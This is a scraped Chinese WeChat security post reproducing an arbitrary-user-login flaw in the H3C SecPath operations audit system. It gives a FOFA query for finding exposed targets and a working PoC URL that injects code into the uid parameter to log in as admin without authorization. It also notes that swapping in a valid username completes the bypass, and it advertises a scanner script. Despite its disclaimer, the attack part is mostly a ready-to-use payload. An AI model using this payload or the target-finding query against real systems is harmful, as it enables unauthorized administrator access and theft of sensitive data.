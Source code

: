 #  H3C SecPath运维审计系统 任意用户登录漏洞

融云安全-sm  [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞复现 13 个

#漏洞库 25 个

**免责声明**

本公众号仅用于技术交流与学习，利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号只是知识的搬运工，取之于民用之于民。

 **0x01  阅读须知**

**融云安全的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 **0x02 漏洞描述**

H3C
SecPath运维审计系统是基于用户现阶段面临的运维难题提出的一款运维风险管控产品。借助身份认证、权限控制、操作审计等功能，从操作层面解决了企业现存的IT内控与管理问题，使运维操作管理进入安全与便利相结合的阶段，帮助客户提高整体运维安全水平，使运维操作管理过程变得更加简单、安全、有效。H3C
SecPath运维审计系统存在任意用户登录漏洞，攻击者通过漏洞可以未授权登录系统管理员，导致敏感信息被窃取等问题。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143638.png)

 **0x03 漏洞复现**

 **fofa** **：** "H3C SecPath运维审计系统"

1.执行POC可未授权登录系统

  * 

    
    
    https://{{Hostname}}/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143639.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143640.png)

2.看到Poc是不是有点眼熟，这不是和某治堡垒机任意用户登录一样吗？不得不说很多产品某些功能代码重复率很高啊，深入挖掘发现出现下面错误说明漏洞存在，只是登录用户名错误，怎么绕过你懂得

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230619143641.png)

3.修改login参数值为合法用户名即可未授权进入系统，xray漏洞扫描脚本星球自提

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

